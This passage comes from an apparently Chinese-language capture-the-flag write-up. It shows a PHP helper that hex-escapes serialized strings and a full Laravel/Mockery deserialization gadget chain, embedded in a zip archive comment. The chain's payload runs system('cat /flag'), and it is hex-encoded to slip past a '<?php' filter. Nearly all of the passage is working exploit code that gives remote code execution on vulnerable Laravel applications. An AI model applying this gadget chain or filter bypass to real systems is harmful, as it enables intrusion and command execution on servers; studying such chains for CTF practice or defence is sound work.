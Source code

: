 ```
        )
        `{`

            $p_start = $matches[0][1];
            $p_start_string = $p_start + strlen($matches[0][0]);
            $length = $matches[1][0];
            $p_end_string = $p_start_string + $length;

            # Check if this really is a serialized string
            if(!(
                strlen($serialized) &gt; $p_end_string + 2 &amp;&amp;
                substr($serialized, $p_end_string, 2) == '";'
            ))
            `{`
                $current = $p_start_string;
                continue;
            `}`
            $string = substr($serialized, $p_start_string, $length);

            # Convert every special character to its S representation
            $clean_string = '';
            for($i=0; $i &lt; strlen($string); $i++)
            `{`
                $letter = $string`{`$i`}`;
                $clean_string .= ctype_print($letter) &amp;&amp; $letter != '\\' ?
                    $letter :
                    sprintf("\\%02x", ord($letter));
                ;
            `}`

            # Make the replacement
            $new .= 
                substr($serialized, $last, $p_start - $last) .
                'S:' . $matches[1][0] . ':"' . $clean_string . '";'
            ;
            $last = $p_end_string + 2;
            $current = $last;
        `}`

        $new .= substr($serialized, $last);
        return $new;

`}`
```

这里我将链子序列化得到的数据转化大写后在使用16进制绕过`&lt;?php`的限制:

```
$phar_file = 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:`{`S:6:"events";O:25:"Illuminate\Bus\Dispatcher":1:`{`S:13:"queueResolver";a:2:`{`i:0;O:25:"Mockery\Loader\EvalLoader":0:`{``}`i:1;S:4:"load";`}``}`S:5:"event";O:38:"Illuminate\Broadcasting\BroadcastEvent":1:`{`S:10:"connection";O:32:"Mockery\Generator\MockDefinition":2:`{`S:6:"config";O:35:"Mockery\Generator\MockConfiguration":1:`{`S:4:"name";S:6:"crispr";`}`S:4:"code";S:31:"\3c\3f\70\68\70 echo system("cat /flag");";`}``}``}`';
    $zip = new ZipArchive();
    $res = $zip-&gt;open('1.zip',ZipArchive::CREATE); 
    $zip-&gt;addFromString('crispr.txt', 'file content goes here');
    $zip-&gt;setArchiveComment($phar_file);
    $zip-&gt;close();
```
